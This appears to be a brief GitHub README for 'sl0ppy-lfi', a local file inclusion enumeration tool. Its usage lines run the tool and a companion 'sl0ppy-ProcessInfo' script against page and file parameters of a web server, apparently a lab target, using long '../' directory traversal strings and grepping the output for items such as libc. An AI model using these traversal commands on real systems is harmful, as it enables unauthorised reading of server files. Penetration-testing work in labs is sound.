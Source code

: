 # sl0ppy-lfi
small lfi enum tool 

# Usage 

# Enum all
`./sl0ppy-lfi http://10.10.11.154/index.php?page=` 
`./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../` 

# enum specific stuff like only libc
`./sl0ppy-lfi http://10.10.11.154/index.php?page= | grep "libc"`
`./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"` 

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
